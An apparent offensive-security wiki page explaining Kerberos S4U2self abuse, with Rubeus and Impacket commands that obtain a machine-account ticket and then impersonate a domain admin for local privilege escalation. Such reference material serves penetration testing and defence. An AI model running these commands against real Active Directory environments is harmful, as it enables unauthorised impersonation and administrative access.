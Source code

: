 # S4U2self abuse

## Theory

Kerberos delegations allow services to access other services on behalf of domain users.

The "Kerberos" authentication protocol features delegation capabilities explained [here](delegations/). Kerberos delegations can be abused by attackers to obtain access to valuable assets and sometimes even escalate to domain admin privileges. Regarding [constrained delegations](delegations/constrained.md) and [rbcd](delegations/rbcd.md), those types of delegation rely on **Kerberos extensions called S4U2Self and S4U2Proxy**.

**Service for User to Self (S4U2self)** allows a service to obtain a Service Ticket, on behalf of a user (called "principal"), to itself. This extension can be used by any account that has at least one SPN. Depending on the service and principal configurations, the resulting Service Ticket may or may not be forwardable but either way, the ticket can be used for authentication.

Last but not least, S4U2self can be used to produce a Service Ticket to oneself on behalf of another domain user, even if that user is "sensitive for delegation" or member of the Protected Users group. Consequently, this allows attackers to do some privilege escalation.

## Practice

In order to obtain local admin rights on the target machine, the attackers needs to conduct two major steps.

### Obtain a TGT

Obtaining a usable TGT for the machine account, either by knowing one of the machine account's Kerberos keys (RC4, AES128, AES256) or by using [the tgtdeleg trick](http://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/) locally from the machine is the first step to conduct the privilege escalation.&#x20;

The "tgtdeleg" trick can be conducted with [Rubeus](https://github.com/GhostPack/Rubeus) (C#) from the machine as follows.

```powershell
Rubeus.exe tgtdeleg /nowrap
```

Alternatively, if the machine account credentials are known, the TGT can be obtained as follows.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket)'s [getTGT.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) (Python) script can be used for the purpose.

```bash
getTGT.py -dc-ip "domaincontroller" -hashes :"NThash" "domain"/"machine$"
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose. Howerver, this step is optional if Rubeus is to be used later on for the S4U2self. In this case, with the appropriate arguments, Rubeus will request a TGT automatically.

```powershell
Rubeus.exe asktgt /nowrap /domain:"domain" /user:"computer$" /rc4:"NThash"
```
{% endtab %}
{% endtabs %}

### Obtain a Service Ticket

The TGT can then be used along with S4U2self to obtain a Service Ticket impersonating another domain user on the machine.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket)'s getST.py (Python) script can be used for the purpose.&#x20;

```bash
export KRB5CCNAME="machine$.ccache"
getST.py -self -impersonate 'DomainAdmin' -spn 'host/machine.domain.local' -k -no-pass -dc-ip 'domaincontroller' 'domain.local'/'machine$'
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose.

```powershell
Rubeus.exe s4u /self /nowrap /impersonateuser:"DomainAdmin" /ticket:"base64ticket"
```

Rubeus can also be used to obtain a TGT automatically instead of supplying the `/ticket` argument.

```powershell
Rubeus.exe s4u /self /nowrap /impersonateuser:"DomainAdmin" /domain:"domain" /user:"computer$" /rc4:"NThash"
```
{% endtab %}
{% endtabs %}

Once a Service Ticket is received, it can be used with [pass-the-ticket](ptt.md)/[pass-the-cache](ptc.md) to obtain access to oneself as the "DomainAdmin" (the user can be changed in the request. Attackers should select a domain user which has local admin rights on the machine).

## Resources

{% embed url="https://exploit.ph/revisiting-delegate-2-thyself.html" %}

{% embed url="https://cyberstoph.org/posts/2021/06/abusing-kerberos-s4u2self-for-local-privilege-escalation" %}
